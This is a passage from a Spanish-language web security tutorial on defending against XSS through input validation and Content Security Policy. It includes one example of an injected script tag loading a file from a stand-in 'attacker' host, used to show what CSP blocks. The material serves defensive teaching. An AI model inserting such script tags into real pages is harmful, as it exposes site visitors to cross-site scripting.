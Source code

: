 Como segunda línea de defensa, debe utilizar la validación entrante para desinfectar o rechazar datos que son claramente inválidos, como los enlaces que utilizan el javascript:protocolo. Si bien esto por sí solo no puede proporcionar seguridad total, es una precaución útil si en algún momento la codificación y validación saliente se realiza incorrectamente debido a errores o equivocaciones.

<aside>
👉 Si estas dos líneas de defensa se utilizan de forma coherente, su sitio web estará protegido de ataques XSS. Sin embargo, debido a la complejidad de crear y mantener un sitio web completo, puede resultar difícil lograr una protección total utilizando únicamente un manejo seguro de la entrada. Como tercera línea de defensa, también debes hacer uso de la Política de seguridad de contenido (CSP), que describiremos a continuación.

</aside>

### **Política de seguridad de contenido (CSP)**

La desventaja de protegerse contra XSS utilizando únicamente un manejo de entrada seguro es que incluso una sola falla de seguridad puede comprometer su sitio web. Un estándar web reciente llamado Política de seguridad de contenido (CSP) puede mitigar este riesgo.

CSP se utiliza para restringir el navegador que ve su página para que solo pueda usar recursos descargados de fuentes confiables. Un *recurso* es un script, una hoja de estilo, una imagen o algún otro tipo de archivo al que hace referencia la página. Esto significa que incluso si un atacante logra inyectar contenido malicioso en su sitio web, CSP puede impedir que se ejecute.

CSP se puede utilizar para hacer cumplir las siguientes reglas:

> Sin fuentes no confiables: Los recursos externos sólo se pueden cargar desde un conjunto de fuentes confiables claramente definidas.
> 
> 
> **Sin recursos en línea:** JavaScript y CSS en línea no se evaluarán.
> 
> **Noeval:** La función JavaScript evalno se puede utilizar.
> 
> **CSP en acción:** En el siguiente ejemplo, un atacante logró inyectar código malicioso en una página:
> 

> <html>
> 
> 
> Latest comment:
> 
> **<script src="http://attacker/malicious‑script.js"></script>**
> 
> </html>
> 

Con una política CSP correctamente definida, el navegador no se cargaría ni ejecutaría malicious‑script.jsporque [http://attacker/no](http://attacker/no) estaría en el conjunto de fuentes confiables. Aunque en este caso el sitio web no pudo manejar de forma segura la entrada del usuario, la política del CSP evitó que la vulnerabilidad causara algún daño.

Incluso si el atacante hubiera inyectado el código del script en línea en lugar de vincularlo a un archivo externo, una política de CSP correctamente definida que no permitiera JavaScript en línea también habría evitado que la vulnerabilidad causara algún daño.
